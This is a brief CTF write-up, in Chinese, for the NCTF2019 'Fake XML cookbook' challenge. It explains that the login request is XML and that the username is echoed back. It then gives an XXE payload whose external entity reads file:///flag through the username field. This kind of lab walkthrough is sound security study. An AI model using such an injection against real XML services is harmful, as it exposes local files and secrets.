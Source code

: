 # \[NCTF2019]Fake XML cookbook

## \[NCTF2019]Fake XML cookbook

## 考点

* XXE

## wp

打开就是登录界面，抓包，是XML

![](<../.gitbook/assets/image (34) (1) (1) (1) (1) (1).png>)

会回显username，直接进行XXE注入

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

![](<../.gitbook/assets/image (27) (1) (1).png>)
